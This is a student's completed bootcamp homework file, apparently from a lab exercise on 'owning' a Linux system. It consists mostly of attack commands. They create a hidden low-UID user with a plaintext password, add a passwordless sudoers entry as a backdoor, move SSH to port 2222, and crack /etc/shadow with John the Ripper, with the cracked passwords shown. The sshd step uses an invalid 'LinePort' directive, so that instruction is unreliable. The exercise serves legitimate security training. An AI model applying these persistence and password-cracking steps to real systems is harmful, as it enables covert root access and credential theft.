 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd -M sysd

2. Give your secret user a password: 
    - passwd sysd
	Cyb3rs3cur1ty1018

3. Give your secret user a system UID < 1000:
    - usermod -u 99 sysd

4. Give your secret user the same GID:
   - groupmod -g 99 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  echo "sysd ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

6. Test that `sudo` access works without your password:

    ```bash
    $ sudo su sysd
    $ whoami
    sysd
    $ sudo su
    $ whoami
    root
    **********************another way to test************
    sudo cat /etc/shadow
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
     vi /etc/ssh/sshd_config
     #add below line to start listening to port 2222
     LinePort 2222
     #save file :wq
     
     #restart sshd daemon
     systemctl restart sshd
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart sshd

2. Exit the `root` account:
    - exit
      exit
      exit	

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su
      john /etc/shadow
      #check status of john
      john --show /etc/shadow
      #check if john is running
      ps -ef | grep john
      
      root@scavenger-hunt:/# john /etc/shadow
      Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
      Press 'q' or Ctrl-C to abort, almost any other key for status
      computer         (stallman)
      freedom          (babbage)
      trustno1         (mitnik)
      dragon           (lovelace)
      lakers           (turing)
      passw0rd         (sysadmin)
      Goodluck!        (student)


---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

